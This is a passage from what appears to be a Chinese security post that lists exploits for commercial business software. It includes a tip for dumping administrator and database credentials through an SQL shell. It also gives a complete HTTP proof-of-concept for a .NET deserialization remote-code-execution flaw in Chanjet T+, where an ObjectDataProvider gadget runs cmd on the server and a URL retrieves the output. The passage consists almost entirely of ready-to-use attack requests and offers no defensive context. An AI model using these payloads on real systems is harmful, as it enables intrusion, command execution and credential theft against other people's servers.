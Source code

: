 ```
  "formWhere":"browser",
  "cardNo":""
}
```  
  
PS：先执行个--sql-shell 然后直接用语句查询 ,即可出来管理员账密+数据库账密。  
```
select * from eap_configpath
```  
  
**二、畅捷通T+ .net反序列化RCE**  
  
chanjet-tplus-rce  
  
POC：  
```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=v0rnaavxoe41hsijum0uc4bl
Upgrade-Insecure-Requests: 1
Content-Length: 594


{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ipconfig > test.txt"
        }
    }
  }
}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHg3fWZutFX6krV7QjVHRjUWq2hLWWq23hviaYaBukVCVTZggxCrEmASQ/640?wx_fmt=png&from=appmsg "")  
  
访问  
http://xxx/tplus/test.txt  
  